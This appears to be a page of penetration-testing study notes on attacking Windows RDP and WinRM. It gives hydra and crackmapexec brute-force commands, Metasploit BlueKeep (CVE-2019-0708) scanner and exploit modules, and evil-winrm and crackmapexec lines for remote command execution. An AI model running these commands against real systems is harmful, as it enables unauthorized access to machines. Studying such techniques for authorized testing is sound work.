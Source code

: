 RDP requires a username and a password for authentication

Exploitation:

- `rdp_scanner` module in Metasploit for checking if a server runs RDP
    - `set RHOSTS`
- credential brute-forcing: `hydra -L <usernames.txt> -P <passwords.txt> rdp://<ip>:<port>/`
- `xfreerdp /u:<username> /p:<password> /v:<ip>:<port>` - connecting to RDP (if a port is different, we can use `:<port>`)

### Exploiting BlueKeep (CVE-2019-0708)

It is an **RDP** vulnerability, attackers send specially crafted RDP requests, it causes buffer overflow, attacker manipulates kernel’s memory because of the exploit script and sends a payload, and he gets a **fully** privileged meterpreter session.

*******Can **crush** the system because of a kernel manipulation.

**Exploitation**:

- `cve_2019_0708_bluekeep` - scanner module in MSF, checks if a service is vulnerable to BlueKeep
- `cve_2019_0708_bluekeep_rce` - exploit for BlueKeep
    - `show targets` - choosing the vulnerable Windows machine
        - `set target <number>`
            
            

**—No Credentials Needeed—**

### Exploiting WinRM

**WinRM** is Windows Remote Management Protocol used for remote access to Windows hosts via HTTP(S), it is mostly used by system administrators for making life easier. Ports are 5985 (HTTP) & 5986 (HTTPS)

WinRM implements various forms of authentication for security reasons.

**Exploitation**:

- `crackmapexec winrm <target ip> -u administrator -p <passwords.txt>` - **brute**-forcing with **`crackmapexec`,** we can use other protocols as well (like ssh, ftp, mssql, etc)
- `crackmapexec winrm <target ip> -u administrator -p tinkerbell -x “whoami”` - comman executing
- `evil-winrm -u administrator -p tinkerbell -i <target ip>` - for a cmd session

For a meterpreter session in Metasploit

- `winrm_script_exec` in Metasploit
    - `set FORCE_VBS true`
    - setting username, password
    - `run`

## Windows Privilege Escalation

Privilege escalation is the process of exploiting (a part of post-exploitation) misconfigurations and vulnerabilities in a system to elevate privileges from one user to another user, typically a root or administrator. Privilege escalation is very important in the overall success of penetration testing.
